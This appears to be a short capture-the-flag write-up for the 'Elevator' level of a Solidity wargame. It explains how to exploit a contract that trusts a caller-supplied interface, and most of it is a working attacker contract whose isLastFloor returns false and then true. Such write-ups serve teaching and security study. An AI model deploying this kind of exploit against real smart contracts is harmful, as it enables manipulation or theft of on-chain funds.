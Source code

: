 #Elevator

In this level we can see that the function isLastFloor is called twice.
This means that we can create our own logic for the function since it is
relying on the caller to be a Building.

We use a simple check to see if the floor we are on is the floor that is called.
Since it's not we can return false and set our floor to the floor that is called.
Now, when the function is called again, it will return true.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;
interface Elevator {
    function goTo(uint) external;
}

contract Building{
    uint floorChange;
    address immutable i_elevatorAddress;
    constructor(address _elevatorAddress) {
        i_elevatorAddress = _elevatorAddress;
    }
    function isLastFloor(uint _floor) public returns (bool) {
        if(floorChange == _floor) {
            return true;
        }
        floorChange = _floor;
        return false;
    }

    function go(uint _floor) public {
        Elevator(i_elevatorAddress).goTo(_floor);
    }
}
```
